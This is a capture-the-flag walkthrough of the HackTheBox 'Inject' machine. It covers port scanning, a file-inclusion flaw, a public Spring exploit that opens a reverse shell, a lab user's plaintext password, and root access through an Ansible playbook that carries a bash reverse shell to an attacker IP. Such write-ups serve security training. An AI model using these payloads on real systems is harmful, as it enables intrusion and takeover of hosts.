









## Summary
### System Information
```text
IP: 10.10.11.204
OS: Linux
Hostname: inject.htb
```

### Credentials
```text
phil:DocPhillovestoInject123
```

### Hashes
```text

```

### Ports
```text
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
```

***

## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt inject.htb
```

```text
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## User

### Website
There's a website on port `8080`.



There's an `Upload` page which we can use to upload an image.



### Local File Inclusion
If we look at the way the image is being retrieved from the server we can see if the website is vulnerable to LFI.

We can use Burp Repeater to automate this process and list directories.



If we look around we find a `pom.xml` file which mentions that the website is using the `Springboot` framework.

### SpringCore RCE
After doing some digging we find [Spring4Shell](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Once we clone the repository, we can run it as follows:
```shell
python3 exploit.py -u http://inject.htb:8080
```

We can a reverse shell!



Upgrade shell to TTY.

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

In the `/home` directory there are two users, `phil` and `frank` but we don't have permission for `phil`.

If we go looking around `frank`'s home directory we find a `settings.xml` file with `phil`'s password.

```text
phil:DocPhillovestoInject123
```



We can use `su` to change user to `phil` and get the `user.txt` flag.

## Privilege Escalation
### Ansible
Let's first run `linpeas` to enumerate the system. Of interest is the files modified in the last 5 minutes. Particularly `/opt/automation/tasks/playbook_1.yml`.



If we look into this further we find out it's an Ansible playbook configuration file. Checking the permission we can see it's run as `root`.

If we run `pspy` we can identify what commands are running the background.



After a little bit we can see the commands run to execute the Ansible playbook.



We can create our own playbook with a reverse shell and upload it to the target to be automatically executed.

```yml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.16.5/9001 0>&1'
```

After waiting a few minutes we get our `root` shell.

